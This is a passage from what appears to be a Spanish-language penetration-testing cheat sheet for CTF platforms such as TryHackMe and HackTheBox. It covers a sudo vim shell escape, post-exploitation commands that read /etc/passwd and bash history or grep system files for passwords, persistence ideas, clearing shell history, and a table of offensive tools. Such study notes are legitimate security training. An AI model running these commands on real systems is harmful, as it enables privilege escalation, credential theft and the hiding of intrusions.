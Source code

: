 ```bash
sudo /usr/bin/vim -c '!sh'
```

---

## 5. Post-Explotación

**Objetivo:** Obtener información crítica.

#### Archivos comunes:

```bash
cat /etc/passwd
cat /root/root.txt
cat /home/usuario/user.txt
```

#### Buscar contraseñas:

```bash
grep -i pass /etc/* 2>/dev/null
cat ~/.bash_history
```

#### Persistencia (solo entornos de pruebas):

- Crear usuarios.
- Cron jobs.
- SSH Keys.

---

## 6. Limpieza (NO EN THM/HTB)

- Borrar shells y exploits.
- Borrar comandos del history.
- Revocar permisos generados.

```bash
history -c
```

---

# 🛠️ Herramientas Básicas

| Categoría        | Herramienta               |
| ---------------- | ------------------------- |
| Escaneo          | nmap                      |
| Enumeración Web  | gobuster, ffuf, dirsearch |
| SMB              | enum4linux, smbclient     |
| Fuerza bruta     | hydra, medusa             |
| Explotación      | Metasploit, searchsploit  |
| Escalada Linux   | LinPEAS, LinEnum          |
| Escalada Windows | winPEAS                   |
| Reversas         | nc, rlwrap, socat         |

---